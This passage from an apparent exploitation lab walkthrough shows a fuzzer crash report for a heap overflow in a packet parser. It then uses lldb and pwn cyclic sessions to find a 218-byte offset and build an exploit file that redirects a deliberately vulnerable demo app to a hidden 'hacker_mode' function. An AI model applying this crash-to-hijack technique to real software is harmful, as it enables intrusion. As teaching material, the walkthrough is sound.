    #6 0x0001020a3a04 in fuzzer::Fuzzer::Loop(std::__1::vector<fuzzer::SizedFile, std::__1::allocator<fuzzer::SizedFile>>&) FuzzerLoop.cpp:910
    #7 0x000102093398 in fuzzer::FuzzerDriver(int*, char***, int (*)(unsigned char const*, unsigned long)) FuzzerDriver.cpp:923
    #8 0x0001020bdd88 in main FuzzerMain.cpp:20
    #9 0x00018aa4eb94 in start+0x17b8 (dyld:arm64e+0x6b94)

0x602000000bfe is located 0 bytes after 14-byte region [0x602000000bf0,0x602000000bfe)
allocated by thread T0 here:
    #0 0x0001026951f8 in _Znam+0x6c (libclang_rt.asan_osx_dynamic.dylib:arm64+0x651f8)
    #1 0x0001020a1650 in fuzzer::Fuzzer::ExecuteCallback(unsigned char const*, unsigned long) FuzzerLoop.cpp:601
    #2 0x0001020a0ecc in fuzzer::Fuzzer::RunOne(unsigned char const*, unsigned long, bool, fuzzer::InputInfo*, bool, bool*) FuzzerLoop.cpp:516
    #3 0x0001020a2cf8 in fuzzer::Fuzzer::MutateAndTestOne() FuzzerLoop.cpp:765
    #4 0x0001020a3a04 in fuzzer::Fuzzer::Loop(std::__1::vector<fuzzer::SizedFile, std::__1::allocator<fuzzer::SizedFile>>&) FuzzerLoop.cpp:910
    #5 0x000102093398 in fuzzer::FuzzerDriver(int*, char***, int (*)(unsigned char const*, unsigned long)) FuzzerDriver.cpp:923
    #6 0x0001020bdd88 in main FuzzerMain.cpp:20
    #7 0x00018aa4eb94 in start+0x17b8 (dyld:arm64e+0x6b94)

SUMMARY: AddressSanitizer: heap-buffer-overflow spp.c:108 in spp_unpack_packet
Shadow bytes around the buggy address:
  0x602000000900: fa fa fd fd fa fa fd fd fa fa fd fa fa fa fd fa
  0x602000000980: fa fa fd fd fa fa fd fa fa fa fd fa fa fa fd fa
  0x602000000a00: fa fa fd fa fa fa fd fa fa fa fd fa fa fa fd fd
  0x602000000a80: fa fa fd fa fa fa fd fa fa fa fd fd fa fa fd fa
  0x602000000b00: fa fa fd fa fa fa fd fa fa fa fd fa fa fa fd fa
=>0x602000000b80: fa fa fd fd fa fa fd fa fa fa fd fd fa fa 00[06]
  0x602000000c00: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x602000000c80: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x602000000d00: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x602000000d80: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x602000000e00: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
==3181==ABORTING
MS: 2 CopyPart-InsertRepeatedBytes-; base unit: 2306d05428fab2f484722ad27aaaa1c009ca1897
0x0,0x0,0x0,0x0,0x0,0x43,0x6f,0x72,0x40,0x0,0x73,0x43,0x73,0x43,
\000\000\000\000\000Cor@\000sCsC
artifact_prefix='./'; Test unit written to ./crash-69c04365cd93c356e17370b5ebf502e9dbd0aecd
Base64: AAAAAABDb3JAAHNDc0M=
[1]    3181 abort      ./resources/fuzzing/fuzzing/output/fuzz_spp_unpack -runs=5000                                                                                                      exit:134

```




```shell
00000001000004f8 T _hacker_mode
```



```shell
╭─[NULLDOGS-seecwinter | 192.168.0.20] ~/Desktop/Booklet_V1                                                                                                                               20:17:11
╰──▶ lldb resources/fuzzing/fuzzing/output/vulnerable_app
(lldb) target create "resources/fuzzing/fuzzing/output/vulnerable_app"
Current executable set to '/Users/astrobyte/Desktop/Booklet_V1/resources/fuzzing/fuzzing/output/vulnerable_app' (arm64).
(lldb) settings set target.input-path resources/fuzzing/fuzzing/pattern.bin
(lldb) run
Process 17351 launched: '/Users/astrobyte/Desktop/Booklet_V1/resources/fuzzing/fuzzing/output/vulnerable_app' (arm64)
[SYSTEM] Waiting for incoming RF packet...
[SYSTEM] Received 300 bytes. Passing to SPP builder...
Process 17351 stopped
* thread #1, queue = 'com.apple.main-thread', stop reason = EXC_BAD_ACCESS (code=257, address=0x6167636161666361)
    frame #0: 0x0000636161666361
error: memory read failed for 0x636161666200
(lldb) register read pc lr fp
      pc = 0x0000636161666361
      lr = 0x6167636161666361
      fp = 0x0000636161646361
(lldb)
```

```shell
╭─[NULLDOGS-seecwinter | 192.168.0.20] ~/Desktop/Booklet_V1                                                                                                                               20:18:30
╰──▶ pwn cyclic -l 0x61666361
218
```




```shell
╭─[NULLDOGS-seecwinter | 192.168.0.20] ~/Desktop/Booklet_V1                                                                                                                               20:19:51
╰──▶ python3 scripts/fuzz_exploit.py  218 0x00000001000004f8
Wrote 226 bytes to resources/fuzzing/fuzzing/exploit.bin
Offset: 218
Address: 0x1000004f8
```



```shell
╭─[NULLDOGS-seecwinter | 192.168.0.20] ~/Desktop/Booklet_V1                                                                                                                               20:23:10
╰──▶ lldb resources/fuzzing/fuzzing/output/vulnerable_app
(lldb) target create "resources/fuzzing/fuzzing/output/vulnerable_app"
Current executable set to '/Users/astrobyte/Desktop/Booklet_V1/resources/fuzzing/fuzzing/output/vulnerable_app' (arm64).
(lldb) settings set target.input-path resources/fuzzing/fuzzing/exploit.bin
(lldb) run
Process 24560 launched: '/Users/astrobyte/Desktop/Booklet_V1/resources/fuzzing/fuzzing/output/vulnerable_app' (arm64)
[SYSTEM] Waiting for incoming RF packet...
[SYSTEM] Received 226 bytes. Passing to SPP builder...
The mind that seeks knowledge cannot remain confined.
```